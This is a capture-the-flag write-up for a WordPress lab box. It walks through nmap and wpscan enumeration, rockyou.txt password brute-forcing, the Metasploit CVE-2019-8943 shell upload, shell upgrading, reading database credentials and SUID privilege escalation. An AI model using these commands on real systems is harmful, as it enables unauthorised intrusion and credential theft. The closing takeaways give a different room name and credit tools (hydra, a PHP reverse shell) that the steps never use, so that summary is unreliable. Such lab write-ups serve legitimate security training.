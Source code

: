 - **Difficulty: Medium**
- **Target IP: 10.10.201.38**
---
### 1. Reconnaissance

**`nmap` scan:**

 - `nmap -O -sV 10.10.201.38`

**Results:**

```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### 2. Web Enumeration

#### Access via hostname:

- Target uses virtual hosts, so need to map `<Target_IP>` to `blog.thm` in `/etc/hosts`

- Navigating to `http://blog.thm` presents a blog made using `wordpress`

#### Usernames Discovered:

- After some searching around the blog, we find it is authored by `Billy Joel` with username `bjoel` from the URL `blog.thm/author/bjoel`

- Furthermore, Billy's mom is also a user. `Karen Wheeler` with username `kwheel` found in the URL `blog.thm/author/kwheel`

#### `wpscan`

- Nothing too interesting from `wpscan --url blog.thm --enumerate vp`

- Next we try brute-forcing passwords for both `bjoel` and `kwheel` using `rockyou.txt`

```bash
wpscan --url blog.thm -U bjoel -P /usr/share/wordlists/rockyou.txt
wpscan --url blog.thm -U kwheel -P /usr/share/wordlists/rockyou.txt
```

- We find user `kwheel` password and login using `blog.thm/wp-login.php`

### 3. Exploit

- After a little recon, we find some corrupted image files within the media section

- Searched on [exploit-db](https://www.exploit-db.com) for relevant WordPress vulnerabilites

	- `WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)` looks promising
	- This is also known as `CVE: 2019-8943, 2019-8942` 

#### `metasploit`

- Hop onto `msfconsole` and search for and use `cve-2019-8943` 

- `show options` lets us see that the options `RHOSTS`, `LHOST`, `USERNAME`, and `PASSWORD` are required. (Use the login creds we brute forced)

### 4. Initial Access

#### `meterpreter` Shell Established

- Running `getuid` returns:

```bash
Server username: www-data
```

- Run the `shell` command in `meterpreter`  session to create a shell

- Upgrade the shell with python:

```python
python -c "import pty;pty.spawn ('/bin/bash')"
```

- Using `ls` shows us a file `wp-config.php` that we can check for credentials

```bash
/** The name of the database for WordPress */
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', '[REDACTED]');
```

### 5. Privilege Escalation

- Find commands with the `SUID` bit set:

```bash
find / -perm -4000 2>/dev/null
```

- `find /` — searches starting from the root directory (`/`) recursively through all files and directories

- `-perm -4000` — this tells `find` to look for files with the **SUID** bit set. The `4000` is the octal permission for the SUID bit

- `2>/dev/null` — redirects error messages (like "Permission denied") to `/dev/null` so they don’t clutter your output

- `/usr/sbin/checker` is our key here

- `file /usr/sbin/checker` returns:

```bash
setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6cdb17533a6e02b838336bfe9791b5d57e1e2eea, not stripped
```

- `ltrace /usr/sbin/checker` returns:

```bash
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

- This executable is checking the env variable to see if we are an admin or not

#### Exploiting `checker` 

- We can try running the binary after setting the environment variable:

```bash
export admin=1
/usr/sbin/checker
```

- This grants us `root` !

### 6. Post Exploitation

- First order of business is to find the `user.txt` flag

- Check the default home directory `/home/bjoel`, as it is commonly contains the `user.txt` flag 

- There is a `user.txt` in here, however:

```text
You won't find what you're looking for here.
```

- Use `find / -name user.txt` to locate the actual `user.txt` flag:

```bash
/home/bjoel/user.txt
/media/usb/user.txt <- The correct path
```

- Lastly, `cat` the `root.txt` file:

```bash
cat /root/root.txt
```


--- 

#### Final Takeaways - TryHackMe: Lookup

- **Thorough enumeration** is key — subdomains, author pages, and usernames can all provide footholds.

- The `wpscan` tool was instrumental for discovering usernames and plugin vulnerabilities.

- Brute-forcing `wp-login.php` with a good wordlist (like `rockyou.txt`) + `hydra` cracked a real user password.

- File upload access via WordPress dashboard allowed a **reverse shell** through a malicious PHP payload.

- **`meterpreter` > `shell` > upgraded with Python pseudo-terminal** for improved interactivity.

- Access to `wp-config.php` revealed MySQL database credentials — useful for lateral movement or full application compromise.

- `find / -perm -4000 2>/dev/null` helped identify the **SUID binary** `/usr/sbin/checker` for privilege escalation.

- `ltrace` exposed that the binary was checking for an `admin` environment variable.

	- Set the variable with `export admin=1` → rerunning the binary → escalated to **root**.

---

### 🧰 Tool Reference Table

| Tool          | Purpose                                                                                  |
|---------------|------------------------------------------------------------------------------------------|
| `nmap`        | Network scanning and service enumeration                                                 |
| `wpscan`      | WordPress vulnerability and user enumeration; brute-force login attempts                 |
| `rockyou.txt` | Common password wordlist used for brute-forcing credentials                             |
| `msfconsole` / `Metasploit` | Exploitation framework used to run CVE-2019-8943 module                             |
| `meterpreter` | Post-exploitation shell provided by Metasploit                                          |
| `ltrace`      | Traces library calls to inspect how a binary interacts with its environment              |
| `find`        | Used to locate files (e.g., with SUID bit or named `user.txt`)                           |
| `export`      | Sets environment variables (used to escalate privileges with `checker`)                  |
| `python`      | Used to upgrade shell for better TTY handling                                           |
[[CTF Notes]]



